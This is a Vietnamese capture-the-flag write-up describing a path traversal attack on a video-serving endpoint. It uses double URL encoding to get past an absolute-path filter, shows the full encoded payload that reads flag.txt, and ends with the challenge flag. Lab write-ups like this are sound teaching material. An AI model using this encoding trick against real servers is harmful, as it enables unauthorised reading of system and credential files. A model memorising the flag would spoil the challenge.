





## Description



## Recon

Đọc JavaScript phía client, có thể thấy file video được nạp thông qua một request dạng:

```text
/somepath?file=koi%20o%20shite/Machine%20Love.mp4
```



Nghĩa là tham số `file` chỉ định đường dẫn tới file cần đọc, gợi ý cho hướng khai thác Path Traversal. Mình thử đọc thẳng absolute path `/etc/passwd`, server trả về:

```text
absolute path rejected
```

-> Server có filter kiểm tra input và từ chối các đường dẫn tuyệt đối. Tuy nhiên, filter này kiểm tra chuỗi sau khi server đã tự động giải mã một lớp URL encoding, nên nếu mã hóa hai lần thì sẽ bypass được lớp filter.

## Khai thác

Ý tưởng là dùng double URL encoding để bypass filter.

```text
/ -> %2f -> %252f
```

Áp dụng tương tự cho toàn bộ các ký tự trong payload để chúng đều bị encode hai lần:



Dò dần từng cấp thư mục bằng `../` (được encode hai lần thành `%252e%252e%252f`), đến cấp thứ 3 thì tìm được file `flag.txt`:

```text
/somepath?file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%2566%256c%2561%2567%252e%2574%2578%2574
```



## Flag:

```text
PTITCTF{youtu.be/sqK-jh4TDXo?si=t3t0Oo_a701c8e2564d}
```
